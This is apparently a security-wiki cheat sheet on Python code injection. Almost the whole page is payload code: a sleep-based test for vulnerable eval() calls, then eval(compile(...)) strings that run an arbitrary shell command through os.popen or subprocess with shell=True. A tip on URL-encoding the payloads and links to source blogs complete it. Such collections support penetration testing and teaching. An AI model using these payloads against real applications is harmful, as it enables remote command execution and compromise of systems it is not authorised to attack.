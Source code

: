 # Code Injection - Python

## Testing if vulnerable

```python
eval(compile('for x in range(1):\n import time\n time.sleep(20)','a','single'))
```

## Payloads

{% hint style="warning" %}
Do not forget to URL encode key characters.
{% endhint %}

```python
# Example with one expression
__import__('os').popen('COMMAND').read()
```

```python
# Example with multiple expressions, separated by commas
str("-"*50),__import__('os').popen('COMMAND').read()
```

```python
# Examples with one expression
eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
eval(compile("""__import__('subprocess').check_output(r'COMMAND',shell=True)""",'','single'))
```

```python
# Examples with multiple statements, separated by semicolons
eval(compile("""__import__('os').popen(r'COMMAND').read();import time;time.sleep(2)""",'','single'))
eval(compile("""__import__('subprocess').check_output(r'COMMAND',shell=True);import time;time.sleep(2)""",'','single'))
```

```python
# When global __import__ trick does not work
eval(compile("""for x in range(1):\n import os\n os.popen(r'COMMAND').read()""",'','single'))
eval(compile("""for x in range(1):\n import subprocess\n subprocess.Popen(r'COMMAND',shell=True, stdout=subprocess.PIPE).stdout.read()""",'','single'))
eval(compile("""for x in range(1):\n import subprocess\n subprocess.check_output(r'COMMAND',shell=True)""",'','single'))
```

## Sources

{% embed url="https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html" %}

{% embed url="http://www.floyd.ch/?p=584" %}

{% embed url="http://vipulchaskar.blogspot.com/2012/10/exploiting-eval-function-in-python.html" %}
